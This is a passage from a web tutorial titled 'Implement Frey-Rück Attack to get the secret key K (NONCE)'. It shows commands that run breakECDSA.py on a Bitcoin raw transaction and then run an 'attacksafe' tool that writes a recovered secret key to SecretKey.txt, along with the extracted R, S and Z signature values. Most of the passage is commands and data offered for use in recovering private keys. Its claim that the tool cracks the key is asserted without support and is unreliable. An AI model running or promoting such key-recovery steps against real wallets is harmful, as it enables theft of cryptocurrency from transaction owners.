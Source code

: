

<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-54-1024x261.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-994"></figure>



<pre class="wp-block-code"><code>R = 0x3458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d
S = 0x445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d0913
Z = 0x8b65d49dde9949e5ea18ae637d7f4f48c7c3b38957892a94a3bab994fec4eee7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool frey_ruck_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-55-1024x313.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-996"></figure>



<p>We launched this attack from&nbsp;<code>-tool frey_ruck_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>



<p>Now to see the successful result, open the file<code>SecretKey.txt</code></p>


